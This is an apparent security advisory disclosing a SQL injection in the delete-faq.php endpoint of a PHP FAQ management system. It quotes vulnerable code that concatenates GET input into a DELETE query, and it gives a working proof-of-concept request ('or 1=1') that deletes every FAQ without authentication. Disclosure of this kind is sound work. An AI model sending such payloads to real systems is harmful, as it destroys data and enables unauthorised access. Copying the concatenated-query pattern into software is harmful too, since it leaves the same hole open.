 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [FAQ Management System Using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17175/faq-management-system-using-php-and-mysql-source-code.html) <br/>

**Affected Version**:
> FAQ Management System Using PHP and MySQL 1.0

**Affected Site Page**: 
> /faq-management-system/endpoint/delete-faq.php<br/>

**Affected Code**: 
> </delete-faq.php> <br/>

Even if there's an attempt to use prepared statements, the code actually recieves the user input via `faq` parameter and writes into `$query`. 

```php
...
if (isset($_GET['faq'])) {
    $faq = $_GET['faq'];

    try {

        $query = "DELETE FROM tbl_faq WHERE tbl_faq_id = '$faq'";

        $stmt = $conn->prepare($query);

        $query_execute = $stmt->execute();
...
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code executing a query on the backend, for the POC all FAQs are deleted without any authentication

![image](https://github.com/smurf-reigz/security/assets/48426940/9727f7a4-b6ee-4f4b-b570-98dad4f579de)

```http 
GET /faq-management-system/endpoint/delete-faq.php?faq=1337'+or+1=1--+ HTTP/1.1
Host: localhost
Connection: close
```

> DELETES all FAQs without authentication.

![image](https://github.com/smurf-reigz/security/assets/48426940/9f60b7fd-746f-4ddf-88fb-72133a16e6e4)

## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).
